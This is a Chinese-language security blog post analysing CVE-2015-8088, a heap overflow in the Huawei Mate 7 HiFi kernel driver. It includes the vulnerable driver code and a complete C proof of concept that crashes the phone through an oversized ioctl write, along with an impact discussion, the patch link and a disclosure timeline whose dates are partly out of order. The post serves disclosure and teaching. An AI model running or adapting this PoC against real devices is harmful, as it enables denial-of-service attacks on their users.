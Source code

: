 ```yaml
---
layout: post
title: "CVE-2015-8088: 华为智能手机HiFi驱动堆溢出"
summary: "在华为Mate 7手机中，/dev/hifi_misc 模块允许在用户态下修改内核态的内存数据，它可能导致系统崩溃或者权限提升。"
categories: system-security
---
```


Shawn：感谢Pray3r的分享，驱动一直以来都是linux内核的重灾区，要以不断修复bug的方式去防御漏洞几乎是1990年代的方案，另外一方面，作为厂商也应该加大代码审计的投入。这篇分析的[英文版已经分享到了DNFWAH Issue 5](https://raw.githubusercontent.com/citypw/DNFWAH/master/5/d5_0x03_DNFWAH_cve-2015-8088-heap-overflow-analysis.txt)上。

By Pray3r

### Description
`/dev/hifi_misc` 是用户空间到内核空间中Hisi 芯片的一个接口，该接口和Hifi相关。我们看到`drivers/hisi/hifidsp/hifi_lpp.c`中的代码，攻击者可以在用户空间下，可以使用`HIFI_MISC_IOCTL_WRITE_PARAMS`参数，并通过调用`ioctl()`执行到该代码路径：
{% highlight html %}
static long hifi_misc_ioctl(struct file *fd, unsigned int cmd, unsigned long arg)
{
[...]
	switch(cmd) {
		[...]
		case HIFI_MISC_IOCTL_WRITE_PARAMS : /* write algo param to hifi*/
			ret = hifi_dsp_write_param(arg);
		        break;
		[...]
	}
[...]
}
{% endhighlight %}
之后，`hifi_dsp_write_param()`函数被调用，它的参数来自用户空间：

{% highlight html %}
int hifi_dsp_write_param(unsigned long arg)
{
	int ret = OK;
	phys_addr_t hifi_param_phy_addr = 0;
	void*		hifi_param_vir_addr = NULL;
	CARM_HIFI_DYN_ADDR_SHARE_STRU* hifi_addr = NULL;
	struct misc_io_sync_param para;
[...]
	if (copy_from_user(&para, (void*)arg, sizeof(struct misc_io_sync_param))) {  // arg --> para
		loge("copy_from_user fail.\n");
		ret = ERROR;
		goto error1;
	}
[...]
	hifi_param_vir_addr = (unsigned char*)ioremap(hifi_param_phy_addr, SIZE_PARAM_PRIV); // heap alloc
	if (NULL == hifi_param_vir_addr) {
		loge("hifi_param_vir_addr ioremap fail\n");
		ret = ERROR;
		goto error2;
	}
[...]
	ret = copy_from_user(hifi_param_vir_addr, para.para_in, para.para_size_in); // heap overflow
	if ( ret != 0) {
		loge("copy data to hifi error! ret = %d", ret);
	}
[...]
}
{% endhighlight %}

参数`arg`是一个结构体指针，指向用户空间的内存。`hifi_dsp_write_param()`函数初始化之后，使用`copy_from_user()`将用户空间的数据`(arg)`拷贝到内核空间中`(para)`。注意，它没做任何验证，就将用户空间下的所用的成员变量拷贝到内核空间中。`para`结构如下：

{% highlight html %}
struct misc_io_sync_param {
	void *                  para_in;          
	unsigned int            para_size_in;      
	void *                  para_out;          
	unsigned int            para_size_out;  
};
{% endhighlight %}
紧接着，又调用了`copy_from_user(hifi_param_vir_addr,
  para.para_in, para.para_size_in)`

- `hifi_param_vir_addr`指向一块由`ioremap()`分配的堆内存，这块堆内存的大小为`SIZE_PARAM_PRIV`(200 * 1024)字节。
- `para.para_in`指针由用户空间控制，它是存储数据的内存。
- `para.para_size_in`是一个`unsigned int`由用户空间控制，它是`para.para_in`的大小。

然而，代码中没有对`para.para_in`和`para.para_size_in`进行验证，如果`para.para_size_in`大于`200 * 1024`,例如`300 * 1024`，将产生一个堆溢出。PoC如下：

{% highlight html %}
/*
 *
 *  HuaWei Mate7 hifi driver Poc
 *
 *  Writen by pray3r<pray3r.z@gmail.com>
 *
 */

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>

#define HIFI_MISC_IOCTL_WRITE_PARAMS    _IOWR('A', 0x75, struct misc_io_sync_param)

struct misc_io_sync_param {
	void *                  para_in;           
	unsigned int            para_size_in;       
	void *                  para_out;           
	unsigned int            para_size_out;   
};

int main(int arg, char **argv)
{
	int fd; 
	void *in = malloc(300 * 1024);
	void *out = malloc(100);
	struct misc_io_sync_param poc;

	poc.para_in = in;
	poc.para_size_in = 300 * 1024;
	poc.para_out = out;
	poc.para_size_out = 100;

	fd = open("/dev/hifi_misc", O_RDWR);

	ioctl(fd, HIFI_MISC_IOCTL_WRITE_PARAMS, &poc);

	free(in);
	free(out);

	return 0;
}
{% endhighlight %}

执行这个PoC将导致Mate 7崩溃，请注意，该PoC至少需要在audio或system用户下执行，因为`/dev/hifi_misc`在audio和system用户下才有可写的权限。

### Impact

给`para.para_size`设置一个很大的值，手机会崩溃，但是想利用这个漏洞提权是非常困难的，因为在`ioremap()`[1]的实现调用了`get_vm_area_node()`，这个函数总是会设置PAGE_SIZE大小的保护页。

感谢Dan Rosenberg的指点。[2]

### Affected

{% highlight html %}
Model   : HUAWEI MT7-TL10
Version : MT7-TL10V100R001CHNC00B133
Android : 4.4.2
Kernel  : 3.10.30-00015-g049a08f
{% endhighlight %}
  其它类似的华为手机可能也受影响。

### Patch

参考华为官网的信息：   
 [http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm](http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm)

### TimeLine

 Sep 28 2015 - Report sent to Huawei PSIRT   
 Sep 10 2015 - Huawei confirmed the security issues   
 Nov 04 2015 - Huawei fixed and public the security issues   
 Nov 09 2015 - Update CVE number   

### Reference
[1]. http://lxr.free-electrons.com/source/mm/vmalloc.c#L1351
[2]. http://seclists.org/oss-sec/2015/q4/532
